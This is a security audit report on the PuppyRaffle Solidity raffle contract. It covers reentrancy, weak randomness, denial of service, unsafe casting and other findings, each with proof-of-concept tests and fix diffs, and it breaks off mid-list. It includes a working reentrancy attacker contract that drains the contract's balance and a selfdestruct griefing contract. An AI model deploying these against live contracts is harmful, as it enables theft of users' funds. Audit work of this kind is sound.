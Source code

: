 <!DOCTYPE html>
<html>
<head>
<style>
    .full-page {
        width:  100%;
        height:  100vh; /* This will make the div take up the full viewport height */
        display: flex;
        flex-direction: column;
        justify-content: center;
        align-items: center;
    }
    .full-page img {
        max-width:  200;
        max-height:  200;
        margin-bottom: 5rem;
    }
    .full-page div{
        display: flex;
        flex-direction: column;
        justify-content: center;
        align-items: center;
    }
</style>
</head>
<body>

<div class="full-page">
    <div>
    <h1>PuppyRaffle Audit Report</h1>
    <h3>Prepared by: Jack Landon</h3>
    </div>
</div>

</body>
</html>

Prepared by: [Jack Landon](https://sveltekit.io) on 2024-08-13
Lead Auditors:

- Jack Landon

# Table of Contents

- [Table of Contents](#table-of-contents)
- [Protocol Summary](#protocol-summary)
- [Disclaimer](#disclaimer)
- [Risk Classification](#risk-classification)
- [Audit Details](#audit-details)
  - [Scope](#scope)
    - [\[H-2\] Weak Randomness in the `PuppyRaffle::selectWinner` function can be exploited to predict the winner.](#h-2-weak-randomness-in-the-puppyraffleselectwinner-function-can-be-exploited-to-predict-the-winner)
  - [Medium Severity](#medium-severity)
    - [\[M-1\] Unbounded Array looping in `PuppyRaffle:enterRaffle` function can prevent new players from entering the raffle.](#m-1-unbounded-array-looping-in-puppyraffleenterraffle-function-can-prevent-new-players-from-entering-the-raffle)
    - [\[M-2\] Unsafe casting of round fees will cause incorrect fee amount to be added to `totalFees` in `PuppyRaffle::selectWinner` function.](#m-2-unsafe-casting-of-round-fees-will-cause-incorrect-fee-amount-to-be-added-to-totalfees-in-puppyraffleselectwinner-function)
    - [\[M-3\] Mishandling of Native Currency in `PuppyRaffle::withdrawFees` that can prevent owner from withdrawing fees.](#m-3-mishandling-of-native-currency-in-puppyrafflewithdrawfees-that-can-prevent-owner-from-withdrawing-fees)
    - [\[M-4\] Smart Contract Raffle Winners without a `receive` or `fallback` function will block the start of a new contest](#m-4-smart-contract-raffle-winners-without-a-receive-or-fallback-function-will-block-the-start-of-a-new-contest)
  - [Low Severity](#low-severity)
    - [\[L-1\] Potential for arithmetic overflow in `PuppyRaffle::selectWinner` function may cause the fee to be incorrect.](#l-1-potential-for-arithmetic-overflow-in-puppyraffleselectwinner-function-may-cause-the-fee-to-be-incorrect)
    - [\[L-2\] 0th index value returned for `PuppyRaffle::getActivePlayerIndex` function when the player is not found, causing non-players to be considered as the 1st player (0th index).](#l-2-0th-index-value-returned-for-puppyrafflegetactiveplayerindex-function-when-the-player-is-not-found-causing-non-players-to-be-considered-as-the-1st-player-0th-index)
  - [Gas Optimizations](#gas-optimizations)
    - [\[G-1\] Unchanged state variables in `PuppyRaffle` contract should be made immutable or constant to reduce gas costs when calling upon them and deploying the contract.](#g-1-unchanged-state-variables-in-puppyraffle-contract-should-be-made-immutable-or-constant-to-reduce-gas-costs-when-calling-upon-them-and-deploying-the-contract)
    - [\[G-2\] Cache the `newPlayers.length` in the `PuppyRaffle::enterRaffle` function to reduce gas costs instead of calling from storage multiple times.](#g-2-cache-the-newplayerslength-in-the-puppyraffleenterraffle-function-to-reduce-gas-costs-instead-of-calling-from-storage-multiple-times)
  - [Informational/Non-Critical Severity](#informationalnon-critical-severity)
    - [\[I-1\] `RaffleEnter` event emits in the `PuppyRaffle::enterRaffle` function if the `newPlayers` array is empty.](#i-1-raffleenter-event-emits-in-the-puppyraffleenterraffle-function-if-the-newplayers-array-is-empty)
    - [\[I-2\] Floating Pragma Version `^0.7.6` is dangerous and should be pinned to a specific version.](#i-2-floating-pragma-version-076-is-dangerous-and-should-be-pinned-to-a-specific-version)
    - [\[I-3\] The used solidity version of `0.7.6` is missing some security features, and should be updated to a more recent version.](#i-3-the-used-solidity-version-of-076-is-missing-some-security-features-and-should-be-updated-to-a-more-recent-version)
    - [\[I-4\] Missing checks for `address(0)` when assigning `feeAddress` in constructor.](#i-4-missing-checks-for-address0-when-assigning-feeaddress-in-constructor)
    - [\[I-5\] `PuppyRaffle:selectWinner` does not follow CEI, which is not a best practice](#i-5-puppyraffleselectwinner-does-not-follow-cei-which-is-not-a-best-practice)
    - [\[I-6\] Use of magic numbers affects code readability](#i-6-use-of-magic-numbers-affects-code-readability)

# Protocol Summary

This project is to enter a raffle to win a cute dog NFT. The protocol should do the following:

1. Call the `enterRaffle` function with the following parameters:
   1. `address[] participants`: A list of addresses that enter. You can use this to enter yourself multiple times, or yourself and a group of your friends.
2. Duplicate addresses are not allowed
3. Users are allowed to get a refund of their ticket & `value` if they call the `refund` function
4. Every X seconds, the raffle will be able to draw a winner and be minted a random puppy
5. The owner of the protocol will set a feeAddress to take a cut of the `value`, and the rest of the funds will be sent to the winner of the puppy.

# Disclaimer

Jack Landon makes all effort to find as many vulnerabilities in the code in the given time period, but holds no responsibilities for the findings provided in this document. A security audit by the team is not an endorsement of the underlying business or product. The audit was time-boxed and the review of the code was solely on the security aspects of the Solidity implementation of the contracts.

# Risk Classification

|            |        | Impact |        |     |
| ---------- | ------ | ------ | ------ | --- |
|            |        | High   | Medium | Low |
|            | High   | H      | H/M    | M   |
| Likelihood | Medium | H/M    | M      | M/L |
|            | Low    | M      | M/L    | L   |

We use the [CodeHawks](https://docs.codehawks.com/hawks-auditors/how-to-evaluate-a-finding-severity) severity matrix to determine severity. See the documentation for more details.

# Audit Details

## Scope

- Commit Hash: e30d199697bbc822b646d76533b66b7d529b8ef5
- In Scope:

````
./src/
#-- PuppyRaffle.sol

## Roles

Owner - Deployer of the protocol, has the power to change the wallet address to which fees are sent through the `changeFeeAddress` function.
Player - Participant of the raffle, has the power to enter the raffle with the `enterRaffle` function and refund value through `refund` function.


# Executive Summary

There are a number of significant bugs and reconsiderations to be made in the codebase.
Whilst the findings are reported on in detail below, the individual bugs were reported with everything held constant.

It would be worth addressing the informational findings first, and then moving from High to Low severity.

## Issues found

| Severity      | Number of Issues Found |
| ------------- | ---------------------- |
| HIGH          | 2                      |
| MEDIUM        | 4                      |
| LOW           | 2                      |
| INFORMATIONAL | 6                      |
| Gas           | 2                      |
| TOTAL         | 16                      |


# Findings

## High Severity

### [H-1] Reentrancy vulnerability in `PuppyRaffle::refund` function can be exploited to all native balance in the contract.

**Description:**
The vulnerable function for reentrancy is the `PuppyRaffle::refund` function:

<details>
<summary>Code</summary>

```javascript
    function refund(uint256 playerIndex) public {
        address playerAddress = players[playerIndex];
        require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
        require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");

        payable(msg.sender).sendValue(entranceFee);

        players[playerIndex] = address(0);
        emit RaffleRefunded(playerAddress);
    }
````

</details>

An attacker can create an attacker contract, so that when the `PuppyRaffle::refund` function hits this line of code:

```javascript
payable(msg.sender).sendValue(entranceFee);
```

...it will call the `receive` or `fallback` function in the attacker contract.
At this stage, it can execute any code before the `PuppyRaffle::refund` continues.

Since the `players[playerIndex]` is updated **after** this line of code:

```javascript
payable(msg.sender).sendValue(entranceFee);
// All Attacker::receive() logic will fully execute here

players[playerIndex] = address(0);
```

... the attack can re-call the `PuppyRaffle::refund` function inside the `receive`/`fallback` function.

As the Check for:

```javascript
require(playerAddress !=
  address(0), "PuppyRaffle: Player already refunded, or is not active");
```

... will still not be satisfied until **after** all of the `receive` logic has been executed, the attacker contract will be able to hit `payable(msg.sender).sendValue(entranceFee);` as many times as they want.

Once this is done, only then will the `PuppyRaffle::refund` nullify the `players[playerIndex]` address:

```javascript
players[playerIndex] = address(0);
```

**Impact:**
This allows anyone to create an attack to drain **all** of the native currency _out_ of the `PuppyRaffle` contract.
The cost to conduct this is the `entranceFee` + gas.

So the likelihood of this happening is high, and the impact is critical.

**Proof of Concept:**
We can simulate the following steps to prove reentrancy:

1. User enters raffle
2. Attacker deploys `ReentrancyAttacker` contract with a `receiver()`, which calls `PuppyRaffle::refund` in the `receive` function
3. Attacker enters the raffle
4. Attacker calls `PuppyRaffle::refund` from the `ReentrancyAttacker` contract, draining the contract balance.

We can deploy this Attacker contract and run a test to see if it can drain the `PuppyRaffle` contract.

<details>
<summary>Code</summary>

```javascript
contract ReentrancyAttacker {
    PuppyRaffle puppyRaffle;
    uint256 immutable entranceFee;
    uint256 attackerIndex;

    constructor(PuppyRaffle _puppyRaffle) {
        puppyRaffle = _puppyRaffle;
        entranceFee = puppyRaffle.entranceFee();
    }

    function attack() external payable {
        address[] memory players = new address[](1);
        players[0] = address(this);

        puppyRaffle.enterRaffle{value: entranceFee}(players);
        attackerIndex = puppyRaffle.getActivePlayerIndex(address(this));

        puppyRaffle.refund(attackerIndex);
    }

    receive() external payable {
        if (address(puppyRaffle).balance >= entranceFee) {
            puppyRaffle.refund(attackerIndex);
        }
    }
}
```

</details>

And then we can add the following test to `PuppyRaffleTest.t.sol`:

<details>
<summary>Code</summary>

```javascript
    function testReentrancy() public {
        address[] memory players = new address[](4);
        players[0] = playerOne;
        players[1] = playerTwo;
        players[2] = playerThree;
        players[3] = playerFour;
        puppyRaffle.enterRaffle{value: entranceFee * 4}(players);

        ReentrancyAttacker reentrancyAttacker = new ReentrancyAttacker(puppyRaffle);
        address attackUser = makeAddr("attackUser");
        vm.deal(attackUser, entranceFee);

        uint256 startingAttackContractBalance = address(reentrancyAttacker).balance;
        uint256 startingPuppyRaffleBalance = address(puppyRaffle).balance;

        vm.prank(attackUser);
        reentrancyAttacker.attack{value: entranceFee}();

        console.log("Starting Puppy Raffle Balance: ", startingPuppyRaffleBalance);
        console.log("Starting Attacker Balance: ", startingAttackContractBalance);

        console.log("Ending Puppy Raffle Balance: ", address(puppyRaffle).balance);
        console.log("Ending Attacker Balance: ", address(reentrancyAttacker).balance);

    }
```

</details>

The logs at the end of the test present as follows:

- Starting Puppy Raffle Balance: 5000000000000000000
- Starting Attacker Balance: 0
- Ending Puppy Raffle Balance: 0
- Ending Attacker Balance: 5000000000000000000

After calling the `ReentrancyAttacker::attack` function, the `PuppyRaffle` contract has 0 balance, and the attacker has all of the balance.

**Recommended Mitigation:**
Use CEI (Checks-Effects-Interactions) pattern to prevent reentrancy attacks.
This involves re-arranging the order of steps in the `PuppyRaffle::refund` function.

```diff
    function refund(uint256 playerIndex) public {
        address playerAddress = players[playerIndex];
        require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
        require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");

+       players[playerIndex] = address(0);
+       emit RaffleRefunded(playerAddress);
        payable(msg.sender).sendValue(entranceFee);

-       players[playerIndex] = address(0);
-       emit RaffleRefunded(playerAddress);
    }
```

Before doing the external call to the attacking contract, the `players[playerIndex]` is nullified, so when the attacking contract calls it's `receive` or `fallback` function, the `players[playerIndex]` will be `address(0)` and the function will revert.
We should also move the `RaffleRefunded` event emission up as well.

### [H-2] Weak Randomness in the `PuppyRaffle::selectWinner` function can be exploited to predict the winner.

**Description:**
The blockchain is a deterministic system, so attempting to find randomness within the system will return a deterministic value.
There are multiple tools people and miners have to predict the outcome of a random number.

In the `selectWinner` function, this is used to select the winning index:

```javascript
uint256 winnerIndex = uint256(keccak256(abi.encodePacked(msg.sender, block.timestamp, block.difficulty))) % players.length;
```

The following variable are used:

- `msg.sender` - Anyone can mine addresses until they find one that will make them the winner.
- `block.timestamp` - Miners have the ability to affect this by holding onto the transaction, or rejecting them at certain timestamps.
- `block.difficulty` - This will be known by the miners, and they can use this manipulate their hash rate and influence the outcome.
- `players.length` - This is known by everyone

Using all of these value, it's possible for miners to influence these values to make sure they are the winner.

A similar randomness method is also used later in the function to determine the rarity of the NFT:

```javascript
uint256 rarity = uint256(keccak256(abi.encodePacked(msg.sender, block.difficulty))) % 100
```

This is even easier to predict and influence for miners as there are only 2 variables needed to influence the outcome.
They simly need create a list of `msg.sender` values, and then they only need to solve for `block.difficulty`.

As anyone has access to an almost-infinite amount of addresses, and miners have access to (and influence of) the `block.difficulty`, this is a very weak source of randomness.

**Impact:**
If some actors can determine or influence the outcome of the winner, the raffle is not entirely fair.

It won't break the entire system, however if participants are aware of this vulnerability, it could lead to discouragement from participating in the raffle.

This also means that users could front-run the `PuppyRaffle::refund` function if they know they're not the winner.

**Recommended Mitigation:**
Use a cryptographically provable random number. [Chainlink VRF](https://docs.chain.link/vrf/v2/subscription/examples/get-a-random-number) is a good option and can be used to provide a secure source of randomness.
Commit Reveal Scheme can also be used. This is where a commitment is made, which will be a hash combined with some random data.

`block.timestamp` has recently replaced `block.timestamp` in `solidity 0.8.18, which is more random, however it's still predictable and should still _not_ be used for randomness.

## Medium Severity

### [M-1] Unbounded Array looping in `PuppyRaffle:enterRaffle` function can prevent new players from entering the raffle.

**Description:**
An attacker can cheaply guarantee the win by preventing new players from entering the raffle.
As the duplicate address check in the `PuppyRaffle:enterRaffle` function will loop through all players (no matter how many players there are), the gas cost for each new player to enter the raffle will increase linearly with the number of players.

If this is number of player is pushed to the ~ around 200 players, the function will hit a gas limit and revert, preventing new players from successfully calling the function at all.

```javascript
        // @audit Denial of Service with unbounded array looping
@>        for (uint256 i = 0; i < players.length - 1; i++) {
            for (uint256 j = i + 1; j < players.length; j++) {
                require(players[i] != players[j], "PuppyRaffle: Duplicate player");
            }
        }
```

**Impact:**
Later entrants will pay significantly more gas to enter the raffle than earlier entrants, as each entrant pays for the linearly increasing loop of the `players` array.
This can cause a rush at the start of the raffle, and discourage later entrants.

This array can get so big that no other addresses can enter.

IMPACT: High
Likelihood: Medium

**Proof of Concept:**
Let's first push the players count beyond 200 and show that the contract will revert.

<details>
<summary>Place the following test into the `PuppyRaffleTest.t.sol`</summary>

```javascript
    function testDenialOfService() public {
        for (uint256 i = 0; i < 300; i++) {
            address[] memory players = new address[](1);
            address newAddress = address(i);
            players[0] = vm.addr(i + 1);
            if (i > 199) {
                vm.expectRevert();
                puppyRaffle.enterRaffle{value: entranceFee}(players);
            } else {
                puppyRaffle.enterRaffle{value: entranceFee}(players);
            }
        }
    }
```

</details>

Given how cheaply you can push blow the state `players` array to more than this, an attacker could distribute `entranceFee` to 200 wallets, and call the `enterRaffle` function with each of them - effectively blocking any more players to enter the raffle.

This would guarantee a win for the attacker at the cost of 200 \* `entranceFee`.

Beyond this, you can see how much more gas-expensive it is for later entrants to enter the raffle than earlier entrants.

```javascript
    function testIncreasingGasCosts() public {
        vm.txGasPrice(1);

        uint256 playersNum = 100;

        // For the first 100 players
        address[] memory players = new address[](playersNum);
        for (uint256 i = 0; i < playersNum; i++) {
            players[i] = address(i);
        }
        uint256 gasStart = gasleft();
        puppyRaffle.enterRaffle{value: entranceFee * players.length}(players);
        uint256 gasEnd = gasleft();

        uint256 gasUsedFirst = (gasStart - gasEnd) * tx.gasprice;
        console.log("Gas used of the 1st 100 players: ", gasUsedFirst);

        // For the second 100 players
        address[] memory playersTwo = new address[](playersNum);

        for (uint256 i = 0; i < playersNum; i++) {
            playersTwo[i] = address(i + playersNum);
        }
        gasStart = gasleft();
        puppyRaffle.enterRaffle{value: entranceFee * playersTwo.length}(playersTwo);
        gasEnd = gasleft();

        uint256 gasUsedSecond = (gasStart - gasEnd) * tx.gasprice;
        console.log("Gas used of the 2nd 100 players: ", gasUsedSecond);

        assert(gasUsedSecond > gasUsedFirst);
    }
```

And you will return the following logs:

- Gas used of the 1st 100 players: 6252128
- Gas used of the 2nd 100 players: 18068215

The gas cost for the 2nd 100 players to enter the raffle is 2.9x more than the first.

**Recommended Mitigation:**
There are a few recommendations:

1. Consider removing the duplicate check. Wallets are free to create, so preventing duplicates doesn't prevent the same person from entering multiple times; just the specific address.
2. Consider using a mapping to check for duplicates. This would allow for constant time lookup to check for whether they've entered.

```diff
+   uint256 public raffleId = 0;
+   mapping(address => uint256) walletLastRaffle;
    .
    .
    .
    function enterRaffle(address[] memory newPlayers) public payable {
        require(msg.value == entranceFee * newPlayers.length, "PuppyRaffle: Must send enough to enter raffle");
        for (uint256 i = 0; i < newPlayers.length; i++) {
            players.push(newPlayers[i]);
        }

+       // Check for duplicates and update walletLastRaffle
+       for (uint256 i = 0; i < newPlayers.length; i++) {
+           require(walletLastRaffle[newPlayers[i]] != raffleId, "PuppyRaffle: Duplicate player");
+           walletLastRaffle[newPlayers[i]] = raffleId;
+       }
-       // Check for duplicates
-       for (uint256 i = 0; i < players.length - 1; i++) {
-           // @audit-high start j from 0 so it checks for duplicates across ALL players. Only allow duplicate when i == j
-           // @audit-high i can == address(0), and j can == address(0), so it will incorrectly exit function
-           for (uint256 j = i + 1; j < players.length; j++) {
-               // @audit if (i == j) continue;
-               require(players[i] != players[j], "PuppyRaffle: Duplicate player");
-           }
-       }
        .
        .
        .
        function selectWinner() external {
            require(block.timestamp >= raffleStartTime + raffleDuration, "PuppyRaffle: Raffle not over");
            require(players.length >= 4, "PuppyRaffle: Need at least 4 players");
+           raffleId++;
        }
    }
```

3. Alternatively, the [OpenZeppelins EnumerableSet Library](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/utils/structs/EnumerableSet.sol) could be utilized to handle this functionality.

Change players to a mapping and for each additional player, increment the `playersCount` variable.

### [M-2] Unsafe casting of round fees will cause incorrect fee amount to be added to `totalFees` in `PuppyRaffle::selectWinner` function.

**Description:**
In the `PuppyRaffle::selectWinner` function, the fee is calculated as follows:

```javascript
        uint256 totalAmountCollected = players.length * entranceFee;
        uint256 prizePool = (totalAmountCollected * 80) / 100;
        uint256 fee = (totalAmountCollected * 20) / 100;
        totalFees = totalFees + uint64(fee);
```

When `fee` is casted to a `uint64`, it's max value can be `18446744073709551615`.
If the `fee` is greater than this, it will wrap around to 0, and the `totalFees` will be incorrect.

**Impact:**
The impact of this issue on the protocol is minimal, other than that `totalFees` will be incorrect.
This could lead to the `totalFees` being lower than it should be, and the owner of the contract not receiving the correct amount of fees.

**Proof of Concept:**

1. We enter the raffle with 100 players.
2. We calculate the `fee` and cast it to a `uint64`.
3. We add the `fee` to the `totalFees`.
4. We check that the `fee` is less than the original `fee`.
5. If it is, the `totalFees` is incorrect.
6. You would not be able to withdraw in the `PuppyRaffle:withdraw` function because of this line:
   ```javascript
   require(address(this).balance ==
     uint256(totalFees), "PuppyRaffle: There are currently players active!");
   ```
   And `address(this).balance` > `totalFees` because `totalFees` would be incorrect.

To prove this, we can add a test to `PuppyRaffleTest.t.sol`:

<details>
<summary>Code</summary>

```javascript
    function testUnsafeCast() public {
        uint256 numPlayers = 100;

        address[] memory players = new address[](numPlayers);
        for (uint256 i = 0; i < numPlayers; i++) {
            players[i] = address(i);
        }
        puppyRaffle.enterRaffle{value: entranceFee * numPlayers}(players);

        uint256 totalAmountCollected = players.length * entranceFee;
        uint256 prizePool = (totalAmountCollected * 80) / 100;
        uint256 fee = (totalAmountCollected * 20) / 100;
        console.log(fee);
        uint64 castedFee = uint64(fee);
        console.log(uint256(castedFee));

        assert(castedFee < fee);
    }
```

The logs are as follows:
Logs:

- 20000000000000000000
- 1553255926290448384

The `fee` is 20 ETH as the original `uint256` value, however when it is casted as a `uint64`, it becomes 1.55 ETH.

**Recommended Mitigation:**
Change the `totalFees` storage variable to a `uint256` type so this type of casting isn't required.

<details>
<summary>Changes</summary>

```diff
-    uint64 public totalFees;
+    uint256 public totalFees;
    .
    .
    .
    function selectWinner() external {
    .
    .
    .
-   totalFees = totalFees + uint64(fee);
+   totalFees = totalFees + fee;
    .
    .
    .
    }
```

</details>

### [M-3] Mishandling of Native Currency in `PuppyRaffle::withdrawFees` that can prevent owner from withdrawing fees.

**Description:**
By enabling the `PuppyRaffle` contract to have more balance than it expects as `totalFees`, the `withdrawFees` function could be bricked.

This is the `PuppyRaffle::withdrawFees` function.

```javascript
    function withdrawFees() external {
        require(address(this).balance == uint256(totalFees), "PuppyRaffle: There are currently players active!");
        uint256 feesToWithdraw = totalFees;
        totalFees = 0;
        (bool success,) = feeAddress.call{value: feesToWithdraw}("");
        require(success, "PuppyRaffle: Failed to withdraw fees");
    }
```

The first `require` line checks that the caller doesn't withdraw more funds than it should.

```javascript
require(address(this).balance ==
  uint256(totalFees), "PuppyRaffle: There are currently players active!");
```

Griefers could also use `selfdestruct(puppyRaffleAddress)` in an attacking contract with some native balance, it will increase the balance of the `PuppyRaffle` contract, and therefore the `address(this).balance` > `totalFees` value.

**Impact:**
If this exploit is used, the owner of the contract will not be able to withdraw the fees from the contract.

**Proof of Concept:**
To prove this, we can create a SelfDestructAttack contract.

<details>
<summary>Code</summary>

```javascript
contract AttackSelfDestruct {
    SelfDestructMe target;

    constructor(SelfDestructMe _target) payable {
        target = _target;
    }

    function attack() external payable {
        selfdestruct(payable(address(target)));
    }
}
```

</details>

Now we can add a test to `PuppyRaffleTest.t.sol`:

<details>
<summary>Code</summary>

```javascript
    function testSelfDestruct() public playersEntered {
        address senderAddress = makeAddr("senderAddress");
        vm.deal(senderAddress, entranceFee);
        vm.expectRevert();
        vm.prank(senderAddress);
        (bool success, ) = payable(address(puppyRaffle)).call{value: entranceFee}("");
        require(success, "Failed to send money to raffle");

        uint256 puppyRaffleBalanceBefore = address(puppyRaffle).balance;
        console.log("Puppy Raffle Balance Before: ", puppyRaffleBalanceBefore);

        AttackSelfDestruct attackSelfDestruct = new AttackSelfDestruct(address(puppyRaffle));
        attackSelfDestruct.attack{value: entranceFee}();

        uint256 puppyRaffleBalanceAfter = address(puppyRaffle).balance;
        console.log("Puppy Raffle Balance After: ", puppyRaffleBalanceAfter);

        vm.warp(block.timestamp + duration + 1);
        puppyRaffle.selectWinner();
        vm.expectRevert();
        puppyRaffle.withdrawFees();
    }
```

</details>

At the end, we expect a revert when the `withdrawFees` function is called.
As the `puppyRaffle.balance` is greater than `totalFees`, the `require` statement is failing, and therefore the `withdrawFees` function is broken.

**Recommended Mitigation:**
The `require` statement is too strict, and should implement something like this:

```diff
-   require(address(this).balance == uint256(totalFees), "PuppyRaffle: There are currently players active!");
+   require(address(this).balance >= uint256(totalFees), "PuppyRaffle: There are currently players active!");
```

### [M-4] Smart Contract Raffle Winners without a `receive` or `fallback` function will block the start of a new contest

**Description:**
The `PuppyRaffle::selectWinner` function is responsible for setting the winner of the raffle and sending them the prize pool.

<details>
<summary>Code</summary>

```javascript
    function selectWinner() external {
        require(block.timestamp >= raffleStartTime + raffleDuration, "PuppyRaffle: Raffle not over");
        require(players.length >= 4, "PuppyRaffle: Need at least 4 players");
        .
        .
        .
        raffleStartTime = block.timestamp;
        previousWinner = winner;

        (bool success,) = winner.call{value: prizePool}("");
        require(success, "PuppyRaffle: Failed to send prize pool to winner");
    }
```

</details>

At the end, the `require` statement requires the preceeding call to have succeeded:

```javascript
(bool success,) = winner.call{value: prizePool}("");
```

If the `winner` address is a contract without a `receive` or `fallback` function which succeeds, then `success` will be `false`, and the whole transaction will revert.

**Impact:**
The `PuppyRaffle::selectWinner` function could revert a lot of times, making the raffle reset difficult, and waste a lot of gas.

Also, true winner may not get paid out, and someone else could take the winnings.

**Proof of Concept:**

1. 10 contracts enter the lottery, each without a `receive` or `fallback` function.
2. The raffle ends
3. One of those contracts will win, however none of them can accept the winnings

**Recommended Mitigation:**
Instead of paying out and requiring for it to succeed, a mapping could be used for the winners to withdraw their winnings themselves.

```diff
+   mapping(address => uint256) public walletWinnings;
    .
    .
    .
    function selectWinner() external {
        .
        .
        .
+       walletWinnings[winner] += prizePool;
-       (bool success,) = winner.call{value: prizePool}("");
-       require(success, "PuppyRaffle: Failed to send prize pool to winner");
    }

+   function claimWinnings(address _to) external {
+       uint256 winningsToSend = walletWinnings[_to];
+       walletWinnings[_to] = 0;
+       (bool success,) = _to.call{value: winningsToSend}("");
+       require(success, "PuppyRaffle: Failed to send winnings");
+   }
```

A separate `PuppyRaffle::claimWinnings` function is added, and a `_to` address is passed in to claim the winnings.
If the winner can't accept the winnings as the contract doesn't have a `receive` or `fallback` function, then the prize pool will be locked.

Adding a `_to` parameter means they can select the address to send the winnings to.

## Low Severity

### [L-1] Potential for arithmetic overflow in `PuppyRaffle::selectWinner` function may cause the fee to be incorrect.

**Description:**
In the `PuppyRaffle::selectWinner` function, there is the following code:

```javascript
        uint256 totalAmountCollected = players.length * entranceFee;
        uint256 prizePool = (totalAmountCollected * 80) / 100;
        uint256 fee = (totalAmountCollected * 20) / 100;
        totalFees = totalFees + uint64(fee);
```

`totalFees` is a `uint64` value, and therefore can hold a maximum value of `18446744073709551615`.
That allows for 18.4 ETH.

As the compiler version of the `PuppyRaffle` contract is `0.7.6`, there are no checks in place to prevent this overflow.
If the totalFees value goes over this max value, it will wrap around to 0.

**Impact:**
If the expectation is that `fees` will never get to this amount, then it is okay.
The

**Proof of Concept:**
To prove the overflow, we can add a test to `PuppyRaffleTest.t.sol`:

<details>
<summary>Code</summary>

```javascript
    function testOverflow() public {
        uint256 numPlayers = 1000;

        address[] memory players = new address[](numPlayers);
        for (uint256 i = 0; i < numPlayers; i++) {
            players[i] = address(i);
        }
        puppyRaffle.enterRaffle{value: entranceFee * numPlayers}(players);
        vm.warp(block.timestamp + duration + 1);
        puppyRaffle.selectWinner();

        address[] memory playersTwo = new address[](numPlayers);
        for (uint256 i = 0; i < numPlayers; i++) {
            playersTwo[i] = address(i + numPlayers);
        }
        puppyRaffle.enterRaffle{value: entranceFee * numPlayers}(playersTwo);
        uint64 totalFeesBefore = puppyRaffle.totalFees();
        console.log(uint256(totalFeesBefore));
        vm.warp(block.timestamp + duration + 1);
        puppyRaffle.selectWinner();
        uint64 totalFeesAfter = puppyRaffle.totalFees();
        console.log(uint256(totalFeesAfter));

        assert(totalFeesAfter < totalFeesBefore);
    }
```

</details>

The logs return this:
Logs:
-15532559262904483840
-12618374452099416064

The `totalFees` should only increase, and therefore be higher after the second round.
We can see that the `totalFees` has decreased, which means that it has wrapped around to 0 and started counting up again.

**Recommended Mitigation:**
Solidity versions >= 0.8 have built-in checks for overflow/underflow. Using a version of solidity that has these checks would the most simple and best way to avert this.

There are libraries such as [SafeMath](https://docs.openzeppelin.com/contracts/2.x/api/math) that can be used to prevent this overflow.

A `uint256` type for `totalFees` should also be used.
Even if the fixes above are used, the transaction can revert if `totalFees` attempts to go above `type(uint64).max`.
This max value is very possible, and it may gridlock functionality of the contract.

If `uint256` is used, the `totalFees` would need to increase to an unreasonably high number the break.
A number so high that you would expect to reach it:

```diff
-    uint64 public totalFees;
+    uint256 public totalFees;
    .
    .
    .
    function selectWinner() external {
    .
    .
    .
-   totalFees = totalFees + uint64(fee);
+   totalFees = totalFees + fee;
    .
    .
    .
    }
```

### [L-2] 0th index value returned for `PuppyRaffle::getActivePlayerIndex` function when the player is not found, causing non-players to be considered as the 1st player (0th index).

**Description:**
When a non-player calls `PuppyRaffle::getActivePlayerIndex`, the function will return a 0 value, which is the 0th index of the `players` array.

```javascript
    function getActivePlayerIndex(address player) external view returns (uint256) {
        for (uint256 i = 0; i < players.length; i++) {
            if (players[i] == player) {
                return i;
            }
        }
        return 0;
    }
```

This means they could assume they are the 0th indexed player, and attempt to use that value to call `PuppyRaffle::refund`, which would inevitable revert (unless they are indeed the 0th index player).

The actual 0-indexed (1st) player may also interpret that they are not an active player, when indeed they are.

**Impact:**
As this function is simply an external function as a means to get the index of a player, it's impact on the protocol is minimal.
The implementation of the code doesn't rely on this function.

**Proof of Concept:**
Add this test to the `PuppyRaffleTest.t.sol` where we prove that a non-player will have the same index returned as the first player:

<details>
<summary>Code</summary>

```javascript
   function testZeroIndexOnNonPlayer() public {
        address playerZero = makeAddr("playerZero");
        address[] memory rafflePlayers = new address[](1);
        rafflePlayers[0] = playerZero;

        vm.deal(playerZero, entranceFee);
        puppyRaffle.enterRaffle{value: entranceFee}(rafflePlayers);

        address nonPlayer = makeAddr("nonPlayer");
        uint256 nonPlayerIndex = puppyRaffle.getActivePlayerIndex(nonPlayer);
        uint256 playerZeroIndex = puppyRaffle.getActivePlayerIndex(playerZero);

        assertEq(nonPlayerIndex, 0);
        assertEq(nonPlayerIndex, playerZeroIndex);
    }
```

</details>

**Recommended Mitigation:**
There are 2 solutions here:

1. Return a `-1` value if the player is not found.
2. Use the `PuppyRaffle::_isActivePlayer` function to check if the player is active before returning the index.

For the first solution, this is how you could return a `-1` value for a non-player:

```diff
-   function getActivePlayerIndex(address player) external view returns (uint256) {
+   function getActivePlayerIndex(address player) external view returns (int256) {
        for (uint256 i = 0; i < players.length; i++) {
            if (players[i] == player) {
                return i;
            }
        }
-       return 0;
+       return -1;
    }
```

This is how you could address the second solution.
Since there is a `PuppyRaffle::_isActivePlayer` function used, perhaps this should be used as a require statement at the beginning of the `PuppyRaffle::getActivePlayerIndex` function.

```diff
    function getActivePlayerIndex(address player) external view returns (uint256) {
+       require(_isActivePlayer(player), "PuppyRaffle: Player is not active");
        for (uint256 i = 0; i < players.length; i++) {
            if (players[i] == player) {
                return i;
            }
        }
-       return 0;
    }
```

## Gas Optimizations

### [G-1] Unchanged state variables in `PuppyRaffle` contract should be made immutable or constant to reduce gas costs when calling upon them and deploying the contract.

**Description:**
Reading from storage is much more expensive than reading from a constant or immutable variable.

The following variables in the `PuppyRaffle` can be made immutable or constant:

<details>
<summary>Changes to PuppyRaffle</summary>

```diff
-    uint256 public raffleDuration;
+    uint256 public immutable raffleDuration;

-    string private commonImageUri = "ipfs://QmSsYRx3LpDAb1GZQm7zZ1AuHZjfbPkD6J7s9r41xu1mf8";
+    string private constant commonImageUri = "ipfs://QmSsYRx3LpDAb1GZQm7zZ1AuHZjfbPkD6J7s9r41xu1mf8";

-    string private rareImageUri = "ipfs://QmUPjADFGEKmfohdTaNcWhp7VGk26h5jXDA7v3VtTnTLcW";
+    string private constant rareImageUri = "ipfs://QmUPjADFGEKmfohdTaNcWhp7VGk26h5jXDA7v3VtTnTLcW";

-    string private legendaryImageUri = "ipfs://QmYx6GsYAKnNzZ9A6NvEKV9nf1VaDzJrqDR23Y8YSkebLU";
